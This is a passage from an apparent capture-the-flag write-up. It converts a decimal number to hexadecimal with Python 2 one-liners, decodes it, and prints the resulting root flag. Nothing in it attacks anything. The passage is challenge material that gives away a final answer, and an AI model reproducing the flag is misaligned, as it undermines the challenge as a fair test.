user13741's script has computed - 24604052029401386049980296953784287079059245867880966944246662849341507003750 - is a decimal value, which needs to converted to hexadecimal and then decoded.Convert the decimal number to hex using
python -c "print format(<DECIMAL NUMBER>, 'x')
root@gotham:~/ctf/brainfuck# python -c "print format(24604052029401386049980296953784287079059245867880966944246662849341507003750, 'x')"
3665666331613564626238393034373531636536353636613330356262386566
3665666331613564626238393034373531636536353636613330356262386566
And decode the hexadecimal value using
python -c "decode = str(<HEX NUMBER>).decode('hex'); print decode"
root@gotham:~/ctf/brainfuck# python -c "decode = str(3665666331613564626238393034373531636536353636613330356262386566).decode('hex'); print decode"
6efc1a5dbb8904751ce6566a305bb8ef
6efc1a5dbb8904751ce6566a305bb8ef
Or here's a one-liner to do both of those things:
python -c "print format(<DECIMAL NUMBER>, 'x').decode('hex')"
root@gotham:~/ctf/brainfuck# python -c "print format(24604052029401386049980296953784287079059245867880966944246662849341507003750, 'x').decode('hex')"
6efc1a5dbb8904751ce6566a305bb8ef
6efc1a5dbb8904751ce6566a305bb8ef
6efc1a5dbb8904751ce6566a305bb8ef is the root flag!Go bathe in the crypto cracker's private pool :))